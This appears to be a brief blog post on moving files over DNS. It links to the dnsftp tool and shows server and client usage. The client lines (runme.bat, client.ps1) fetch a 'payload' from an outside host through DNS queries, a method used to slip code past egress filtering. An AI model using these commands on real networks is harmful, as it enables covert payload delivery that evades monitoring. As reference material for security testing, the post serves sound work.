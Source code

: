 ```yaml
---
title: Transfer files via DNS
date: 2016-12-11 00:24:05
tags: DNS
---
```


[Download](https://github.com/breenmachine/dnsftp)

### Usage
Server

```
> sudo python server.py -f /path/to/file
```
Client

```
> runme.bat payloadserverhostname fileparts publicdnsserver
or 
> powershell client.ps1 -server where.your.server.resolves.com
```
Example: 
    
    runme.bat payloadserver.yourdomain.com 42 8.8.8.8
If just testing internally, you can use the following example:

    runme.bat payloadserverhostname fileparts payloadserverIPaddr